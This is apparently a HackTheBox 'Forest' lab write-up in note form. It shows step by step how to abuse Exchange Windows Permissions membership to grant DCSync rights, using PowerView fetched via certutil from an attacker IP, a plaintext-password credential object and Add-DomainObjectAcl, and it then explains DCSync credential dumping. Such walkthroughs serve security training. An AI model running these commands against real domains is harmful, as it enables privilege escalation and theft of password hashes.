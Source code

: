 - so now that we have added our  gr4y user to the "Exchange Windows Permissions" group, this  means that we have WriteDacl permissions to the HTB.local domain 
- so with this privilege, we can grant ourself the ability to DCSync
- we need to authenticate to the Domain Controller as a member of EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL because we are not running a process as a member. 
- To do this in conjunction with `Add-DomainObjectAcl`, we first create a PSCredential object:

```ad-note
New-Object System Management.Automation.PSCredential is a cmdlet that takes the username and password and creates a credential object. 
- The PSCredential object represents a set of security credentials such as a username and password
- this object can now be passed as a parameter to a function that run as the user account in the credential oject.
```

- we do this using the commands:
```
$SecPassword = ConvertTo-SecureString 'password123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\gr4y', $SecPassword)
```
- we the `Add-DomainObjectAcl` cmdlet is part of our PoweView, so we have to import it first `certutil.exe -urlcache -split -f http://10.10.14.83/PowerView.ps1 PowerView.ps1`

```ad-note
the Add-DomainObjectAcl cmdlet in Powersploit adds an ACL for a specific active directory object
```

- then we can run it and add the ACL to the htb.local domain using the commands:
```
 . ./PowerView.ps1
Add-DomainObjectAcl -PrincipalIdentity gr4y -Credential $Cred -Rights DCSync
```
- we can verify that we have added the DCSunc rights with this command below
```
Get-DomainObjectAcl -Identity gr4y -domain htb.local -ResolveGUIDs
```
![](assets/Forest_assets/Pasted%20image%2020230804182554.png)

we will see permission rights like **DS-Replication-Get-Changes**, **Replicating Directory Changes All** and **Replicating Directory Changes In Filtered Set**.

- so now we can  perform a DCSync attack

```ad-note
- there are several techniques to dump credentials from a compromised endpoint, like obtaining them from LSASS Memory, SAM database, cached domain credentials or Replicating Directory Permissions
- AD accounts with " Replication Directory Changes" allow attackers to retrieve credentials using the DCSync attack
- Replication in Active Directory ensures that every domain controller synchronizes data changes within the same datacenter or across sites.
- An attacker can compromise standard, non-privileged user accounts with “Replicate Directory Changes” permission and performs malicious replication to steal credentials.
- Additionally, any security principal with one of the following rights delegated at the domain level can also successfully retrieve password hash data using the DCSync attack.
	- GenericAll (Full Control)
	- AllExtendedRights
- The DCSync attack is a well-known credential dumping technique that enables attackers to obtain sensitive information from the AD database. The DCSync attack allows attackers to simulate the replication process from a remote Domain Controller (DC) and request credentials from another DC.
```